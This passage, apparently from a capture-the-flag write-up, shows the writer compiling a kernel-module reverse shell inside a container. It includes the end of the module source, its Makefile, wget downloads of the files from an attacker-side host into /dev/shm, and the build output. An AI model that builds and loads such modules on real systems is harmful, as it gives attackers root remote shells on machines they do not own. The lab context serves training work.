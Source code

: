 ```

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);

```

I’ll also save a copy of their `Makefile`:

```

obj-m +=reverse-shell.o

all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

From the container, I’ll upload these:

```

root@5e5026ac6a81:/dev/shm# wget 10.10.14.6/reverse-shell.c
--2025-02-03 18:04:25--  http://10.10.14.6/reverse-shell.c
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 715 [text/x-csrc]
Saving to: ‘reverse-shell.c’

rev.c               100%[===================>]     715  --.-KB/s    in 0s      

2025-02-03 18:04:26 (1.86 MB/s) - ‘reverse-shell.c’ saved [715/715]

root@5e5026ac6a81:/dev/shm# wget 10.10.14.6/Makefile
--2025-02-03 18:04:29--  http://10.10.14.6/Makefile
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 168 [application/octet-stream]
Saving to: ‘Makefile’

Makefile            100%[===================>]     168  --.-KB/s    in 0s      

2025-02-03 18:04:29 (644 KB/s) - ‘Makefile’ saved [168/168]

```

`make` will compile them for this system:

```

root@5e5026ac6a81:/dev/shm# make                    
make -C /lib/modules/6.1.0-20-amd64/build M=/dev/shm modules
make[1]: Entering directory '/usr/src/linux-headers-6.1.0-20-amd64'
  CC [M]  /dev/shm/reverse-shell.o
  MODPOST /dev/shm/Module.symvers
  CC [M]  /dev/shm/reverse-shell.mod.o
  LD [M]  /dev/shm/reverse-shell.ko
  BTF [M] /dev/shm/reverse-shell.ko
Skipping BTF generation for /dev/shm/reverse-shell.ko due to unavailability of vmlinux
make[1]: Leaving directory '/usr/src/linux-headers-6.1.0-20-amd64'

```
